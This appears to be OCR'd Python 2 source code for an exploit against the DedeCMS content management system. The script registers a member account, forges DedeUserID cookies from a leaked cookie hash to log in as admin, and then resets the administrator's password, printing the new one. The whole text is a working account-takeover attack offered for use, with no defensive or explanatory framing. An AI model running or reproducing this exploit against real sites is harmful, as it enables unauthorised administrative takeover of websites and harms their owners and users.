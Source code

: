         headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0)",
                   "Content-Type": "application/x-www-form-urlencoded"}
        data = "dopost=regbase&step=1&mtype=%E4%B8%AA%E4%BA%BA&mtype=%E4%B8%AA%E4%BA%BA&userid={userid}&uname={uname}&userpwd={userpwd}&userpwdok={userpwd}&email=0000001%400000001.com&safequestion=0&safeanswer=&sex=%E7%94%B7&vdcode={vdcode}&agree=".format(
            userid=userid, uname=uname, userpwd=userpwd, vdcode=vdcode)
        rs = s.post(dede_host + '/member/reg_new.php', data=data, headers=headers)
        if "验证码错误" in rs.content:
            exit("Verification code error, account registration failed")
        elif '注册成功' in rs.content:
            print 'registration success !!'

        rs = s.get(dede_host + "/member/index.php?uid={userid}".format(userid=userid))
        if "资料尚未通过审核" in rs.content:
            exit("User information has not been approved !!!")  # 会员使用权限开通状态(-10 邮件验证 -1 手工审核, 0 没限制)：
        searchObj = re.search(r'last_vid__ckMd5=(.*?);', rs.headers['Set-Cookie'], re.M | re.I)
        last_vid__ckMd5 = searchObj.group(1)
        s.cookies['DedeUserID'] = userid
        s.cookies['DedeUserID__ckMd5'] = last_vid__ckMd5
        rs = s.get(dede_host + "/member/index.php")
        if "class=\"userName\">admin</a>" in rs.text:
            print "Administrator login successful !!"

        headers = {"Referer": dede_host + "member/edit_baseinfo.php"}
        rs = s.get(dede_host + 'include/vdimgck.php').content
        file = open('2.jpg', "wb")
        file.write(rs)
        file.close()

        vdcode = raw_input("Please enter the verification code : ")

        data = {"dopost": "save", "uname": "admin", "oldpwd": oldpwd, "userpwd": newpwd, "userpwdok": newpwd,
                "safequestion": "0", "newsafequestion": "0", "sex": "男", "email": "admin@admin.com", "vdcode": vdcode}
        rs = s.post(dede_host + '/member/edit_baseinfo.php', data=data)
        if "成功更新你的基本资料" in  rs.content:
           print "Administrator password modified successfully !!"
           print "The new administrator password is : " + newpwd
        else:
            print "attack fail"
